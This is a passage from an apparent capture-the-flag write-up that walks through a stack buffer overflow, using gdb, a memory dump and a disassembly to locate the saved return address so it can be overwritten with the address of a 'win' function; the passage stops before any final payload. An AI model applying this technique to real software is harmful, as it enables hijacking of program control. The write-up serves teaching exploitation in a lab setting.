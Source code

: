 We are not too concerned about $rbp though. What we actually want to change, is the eight bytes immediately following $rbp. Those eight bytes tell the computer where to return to, after it's done executing vuln.

Now, we just need to figure out where $rbp is (to figure out where the return address is), write the address of win there, and we should get the flag. To help with this, we will use gdb. Also, we will recompile the binary to make this easier.

```
$ mv 3a94daa70dec9724331681ac2d16f3b6-main.c main.c
$ gcc -fno-stack-protector -g main.c -o main
```

As you can see, gcc points out that the `gets` function is dangerous and should not be used. I used the flag `fno-stack-protector` so that the compiler doesn't insert checks protecting against buffer overflow attacks, and `g` to add additional debugging information for gdb. Let's run gdb now using `gdb main`.

I'm going to put a breakpoint at line 26 to determine how far $rbp, and subsequently, the return address, is from the end of buf.<br>`(gdb) b 26`

Now let's run the program and as input, type in 100 As. This way, we will be able to find where buf ends, and then calculate how many bytes away from the return address it is.<br>`(gdb) r`

In my instance of GDB, the address of win is going to be 0x5555555548aa. This might differ for you. As stated above, I'm going to enter 100 As as the input.

Now that thet program has reached the breakpoint, let's find the address of $rbp. Once again, the address you get might be different than the ones i got.<br>`(gdb) x/16xw $rbp`

```
0x7fffffffe5e0: 0xffffe5f0      0x00007fff      0x55554976      0x00005555
0x7fffffffe5f0: 0x55554980      0x00005555      0xf7a05b97      0x00007fff
0x7fffffffe600: 0x00000001      0x00000000      0xffffe6d8      0x00007fff
0x7fffffffe610: 0x00008000      0x00000001      0x55554941      0x00005555
```

RBP for me is located at 0x7fffffffe5e0 to 0x7ffffffffe5e7 (the first two blocks). The return address is the two blocks right after that. Keep in mind that computers store integers in little-endian, so if they stored base-10 integers for example, 1234 for us would be stored as 4321 in memory. Because of this, to get the return address, we should read the rightmost block first. The return address is 0x0000555555554976. Since we haven't tampered with this address yet, we should find that it maps to the instruction in main just after calling vuln. Let's verify this by running `(gdb) disass main`.

```
Dump of assembler code for function main:
   0x0000555555554941 <+0>:     push   %rbp
   0x0000555555554942 <+1>:     mov    %rsp,%rbp
   0x0000555555554945 <+4>:     lea    -0xa2(%rip),%rsi        # 0x5555555548aa <win>
   0x000055555555494c <+11>:    lea    0xd2(%rip),%rdi        # 0x555555554a25
   0x0000555555554953 <+18>:    mov    $0x0,%eax
   0x0000555555554958 <+23>:    callq  0x555555554720 <printf@plt>
   0x000055555555495d <+28>:    mov    0x2006bc(%rip),%rax        # 0x555555755020 <stdout@@GLIBC_2.2.5>
   0x0000555555554964 <+35>:    mov    %rax,%rdi
   0x0000555555554967 <+38>:    callq  0x555555554760 <fflush@plt>
   0x000055555555496c <+43>:    mov    $0x0,%eax
---Type <return> to continue, or q <return> to quit---
   0x0000555555554971 <+48>:    callq  0x555555554919 <vuln>
   0x0000555555554976 <+53>:    mov    $0x0,%eax
   0x000055555555497b <+58>:    pop    %rbp
   0x000055555555497c <+59>:    retq   
End of assembler dump.
```
Notice where we call (callq) vuln. `0x0000555555554971 <+48>:    callq  0x555555554919 <vuln>`<br>
Sure enough, the instruction right after this, `mov $0x0,%eax` has a memory address of `0x0000555555554976`.

